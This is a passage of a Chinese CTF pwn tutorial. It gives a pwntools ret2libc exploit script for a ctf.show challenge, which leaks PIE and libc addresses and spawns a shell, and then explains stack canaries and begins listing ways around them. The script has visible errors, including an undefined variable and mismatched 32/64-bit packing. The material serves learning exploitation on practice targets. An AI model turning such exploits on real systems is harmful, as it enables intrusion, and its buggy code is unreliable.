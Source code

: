 exp如下：

```python
from pwn import *
from LibcSearcher import *
context(log_level='debug', arch='i386', os='linux')

io = remote('pwn.challenge.ctf.show', 28192)

main_addr = int(io.recv(10), 16)
success('main_addr----->' + hex(main_addr))
#在ida里面找一下这些函数的偏移量
pie_base = main_addr - 0x652
puts_plt = pie_base + 0x490
puts_got = pie_base + 0x1FD4
got = elf_base + 0x1FC0		#因为ebx内部存的地址决定了我们第二次溢出时填写的位置，要保持不变。
#在ebx内部保留了got表地址，不让它改变。
payload = b'a'*132 + p32(got)+b'a'*4+p32(puts_plt) + p32(main_addr) +p64(puts_got)
io.send(payload)
io.recvuntil(b'\n')
puts_addr = u32(io.recv(4).ljust(4,b'\x00'))
success('puts_addr---->'+hex(puts_addr))
libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')
payload = b'a'*132 + p32(got)+b'a'*4+p32(system) + p32(main_addr) +p64(binsh)
io.sendline(payload)
io.interactive()
```

这题展示了如何利用地址算pie基地址，然后获得我们需要的内部函数的地址。

## canary

 Canary 的意思是金丝雀，是一种用于防止栈溢出攻击的安全机制 。 栈溢出攻击是一种常见的缓冲区溢出攻击类型，攻击者通过向程序栈中写入超过缓冲区边界的数据，覆盖相邻的栈帧数据，包括返回地址等，从而改变程序的执行流程，执行恶意代码。为了抵御这种攻击，Canary 保护机制应运而生。 

### 原理：

 Canary 保护机制的核心思想是在函数栈帧中插入一个特殊的值（即 Canary 值），并在函数返回时检查该值是否被修改。如果 Canary 值被改变，说明栈可能发生了溢出， 然后会去调用stack_chk_fail函数退出程序。在程序启动的时候会随机生成一个canary值，一般放在ebp-0x8这个位置。 Canary 值的**最后一个字节**可能被设置为 0x00，这样可以利用字符串处理函数遇到 0x00 时会停止的特性，方便在检测 Canary 是否被修改时进行判断。 

这就是相当于在出门前放了一张卡片在门口，我们回来时候发现卡片位置不对了，就知道有人来动手脚了。当然我们现在知道主人放卡片了，就有办法迷惑他，让他不知道我们动手脚了。

### 绕过方法：

绕过方法主要就是获得canary让它保持原来的值，或者改变canary然值和我们填写的一样，又或者利用检查canary的机制，在检查的时候动手脚

主要有下面几种，其他的up还没学：

#### 一：格式化字符串漏洞泄露canary
